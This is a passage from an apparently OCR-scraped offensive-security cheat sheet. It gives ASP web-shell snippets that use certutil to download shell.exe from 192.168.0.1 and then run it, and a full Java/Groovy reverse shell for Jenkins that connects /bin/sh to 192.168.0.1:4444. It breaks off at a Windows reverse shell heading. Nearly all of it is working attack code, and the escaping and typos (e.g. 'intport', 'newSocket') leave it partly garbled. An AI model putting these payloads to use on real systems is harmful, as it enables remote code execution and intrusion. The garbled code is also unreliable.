 ### Transfer A File (Certutil) 


\<% 
Set rs = CreateObject\("WScript\.Shell"\)
Set cmd = rs\.Exec\("cmd /c certutil\.exe \-urlcache \-f http://192\.168\.0\.1/shell\.exe C:\\Windows\\Temp\\shell\.exe"\)
o = cmd\.StdOut\.Readall\(\)
Response\.write\(o\)
%\>


\-\-\- 




### Execute a File 


\<% 
Set rs = CreateObject\("WScript\.Shell"\)
Set cmd = rs\.Exec\("cmd /c C:\\Windows\\Temp\\shell\.exe"\)
o = cmd\.StdOut\.Readall\(\)
Response\.write\(o\)
%\>



## Jenkins / Groovy (Java) 




\-\-\- 




### Linux Reverse Shell 



String host="192\.168\.0\.1";
intport=4444;
String cmd="/bin/sh";
Process p=newProcessBuilder\(cmd\)\.redirectErrorStream\(true\)\.start\(\);Socket s=newSocket\(host,port\);InputStream pi=p\.getInputStream\(\),pe=p\.getErrorStream\(\), si=s\.getInputStream\(\);OutputStream po=p\.getOutputStream\(\),so=s\.getOutputStream\(\);while\(\!s\.isClosed\(\)\)\{while\(pi\.available\(\)\>0\)so\.write\(pi\.read\(\)\);while\(pe\.available\(\)\>0\)so\.write\(pe\.read\(\)\);while\(si\.available\(\)\>0\)po\.write\(si\.read\(\)\);so\.flush\(\);po\.flush\(\);Thread\.sleep\(50\);try\{p\.exitValue\(\);break;\}catch\(Exception e\)\{\}\};p\.destroy\(\);s\.close\(\);


\-\-\- 




### Windows Reverse Shell 
